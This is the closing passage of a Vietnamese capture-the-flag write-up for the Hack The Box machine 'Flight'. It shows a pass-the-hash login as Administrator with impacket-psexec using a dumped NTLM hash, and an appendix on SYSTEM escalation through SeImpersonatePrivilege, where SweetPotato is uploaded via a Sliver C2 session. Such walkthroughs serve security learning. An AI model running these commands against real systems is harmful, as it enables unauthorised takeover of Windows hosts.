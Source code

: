 ![alt text](image-33.png)

Cuối cùng, có thể sử dụng các hash đã trích xuất để xác thực với tư cách là user `Administrator` bằng cách sử dụng `impacket-psexec`.

```
impacket-psexec Administrator@flight -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
```

![alt text](image-34.png)

Root flag có thể được tìm thấy trong `C:\Users\Administrator\Desktop\root.txt`.

## Appendix - Alternative Privilege Escalation

"User" `IIS APPPOOL\DefaultAppPool` là một dịch vụ/tài khoản ảo. Điều này có nghĩa là nó đã bật `SeImpersonatePrivilege`.

![alt text](image-35.png)

Quyền này liên quan đến một họ khai thác được gọi là "potatoes". Có thể đọc thêm về chúng tại đây (https://jlajara.gitlab.io/Potatoes_Windows_Privesc). Về cơ bản, những gì đang cố gắng đạt được là buộc machine xác thực là `NT AUTHORITY\SYSTEM` với một quy trình đã kiểm soát và sau đó, vì có `SeImpersonatePrivilege`, tạo một quy trình mới chạy dưới dạng `NT AUTHORITY\SYSTEM`. Đối với ví dụ này, sử dụng SweetPotato (https://github.com/CCob/SweetPotato) thực chất là một tập hợp các loại potatoes. Sau khi build project bằng `VisualStudio`, có thể sử dụng `sliver` một lần nữa để upload file thực thi lên và lấy một session mới dưới dạng `SYSTEM`.

```
sliver > cd "C:\users\public\music"

sliver > upload /opt/SweetPotato.exe

sliver > shell

.\SweetPotato.exe -e EfsRpc -p "C:\users\public\music\htb.exe"
```

![alt text](image-36.png)

Cuối cùng, có một session tài khoản `NT AUTHORITY\SYSTEM` và có thể đọc root flag.